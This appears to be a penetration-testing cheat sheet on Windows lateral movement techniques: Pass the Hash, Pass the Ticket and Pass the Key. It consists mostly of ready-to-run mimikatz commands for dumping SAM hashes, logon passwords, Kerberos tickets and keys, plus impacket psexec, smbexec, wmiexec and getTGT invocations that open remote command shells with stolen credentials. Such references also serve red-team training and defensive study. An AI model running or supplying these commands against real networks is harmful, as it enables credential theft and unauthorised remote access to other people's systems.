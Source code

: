 # Pass The Hash

## Pass the Hash

Use the hash to login in another machine as a local user without knowing its password. Works because NTLM hashes are static so if a user logs into different machines his hash will remain the same on each host.

```
lsadump::sam 
sekurlsa::logonpasswords
```

### Run on Windows

```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM or :NT> /run:<cmd>
```

### Run on Linux

```
pth-winexe -U <domain>/<user>%<NTLM> //<target ip> cmd

#impacket
smbexec.py <user>@<ip> -hashes <NTLM or :NT>
psexec.py <user>@<ip> -hashes <NTLM or :NT>
wmiexec.py <user>@<ip> -hashes <NTLM or :NT>
```

## Pass the Ticket

Loads a ticket in memory granting the current user access to the remote machine/service within the context of the current session.

```
sekurlsa::tickets /export
```

### Run on Windows

```
kerberos::ptt <.krbi file>
.\PsExec.exe -accepteula \\<target host> cmd
```

### Run on Linux

```
#convert and store the ticket file for impacket use
python ticket_converter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=<.ccache file path>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

## Pass the Key

Obtain a TGT ticket by providing a valid NTLM hash, AES key or password. The obtained TGT token can then be used to access other machines.

### Run on Windows

```
sekurlsa::ekeys

sekurlsa::pth /user:<user> /domain:<domain> /rc4:<hash> /run:"<cmd>"
sekurlsa::pth /user:<user> /domain:<domain> /aes128:<hash> /run:"<cmd>"
sekurlsa::pth /user:<user> /domain:<domain> /aes256:<hash> /run:"<cmd>"
```

### Run on linux

```
python getTGT.py <domain_name>/<user_name> -hashes <NTLM hash>
python getTGT.py <domain_name>/<user_name> -hashes :<NT hash>
python getTGT.py <domain_name>/<user_name> -aesKey <AES>
python getTGT.py <domain_name>/<user_name>:<password>

export KRB5CCNAME=<ccache file>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

